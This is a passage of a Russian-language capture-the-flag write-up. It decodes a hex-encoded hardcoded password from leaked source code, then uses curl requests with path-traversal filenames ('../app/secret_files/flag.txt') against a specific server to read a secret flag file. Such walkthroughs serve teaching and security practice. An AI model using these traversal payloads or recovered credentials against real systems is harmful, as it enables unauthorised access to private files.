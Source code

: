 Что мы видим:
- GET /files?password=<пароль>&filename=<имя файла> - получение файла
- Поиск файла происходит простой конкатенацией путей: `f = open(file_root + filename, 'r').read()`

Пароль случайно не тот, что мы ранее видели в коммите **Fix** - **qgzc6!78zxcbkj123fdgd234**?

**check_password** мы уже видели в **auth.py**:
```python
import string
import binascii


allow_passwd = '71677a63362137387a7863626b6a31323366646764323334'


def check_password(password):
    if password == "" or password is None:
        return False
    vl = ''.join([hex(z)[2:] for z in [ord(x) for x in password]])
    return allow_passwd == vl 
```

Внутри функции сравнение входящего пароля с **allow_passwd**...

Расхешируем его:
```python
print(to_raw_password('71677a63362137387a7863626b6a31323366646764323334'))  # qgzc6!78zxcbkj123fdgd234
```

Пароли совпали! Осталось найти флаг.

```bash
$ curl -X GET http://193.41.142.9:8002/files
No auth
```

Попробуем с паролем:
```bash
$ curl -X GET -G http://193.41.142.9:8002/files -d 'password=qgzc6!78zxcbkj123fdgd234' -d 'filename=flag'
No files
```

И мы помним, что судя по **.gitignore**, рядом с **files** лежат **secret_files**. <br>
А простая конкатенация в **get_file** поможет нам выйти из директории **files**.
```bash
$ curl -X GET -G http://193.41.142.9:8002/files -d 'password=qgzc6!78zxcbkj123fdgd234' -d 'filename=../app/secret_files/flag'
No files

$ curl -X GET -G http://193.41.142.9:8002/files -d 'password=qgzc6!78zxcbkj123fdgd234' -d 'filename=../app/secret_files/flag.txt'
flag{a0a7c3fff21f2aea3cfa1d0316dd816c}
```

А вот и наш флаг - **flag{a0a7c3fff21f2aea3cfa1d0316dd816c}**!

---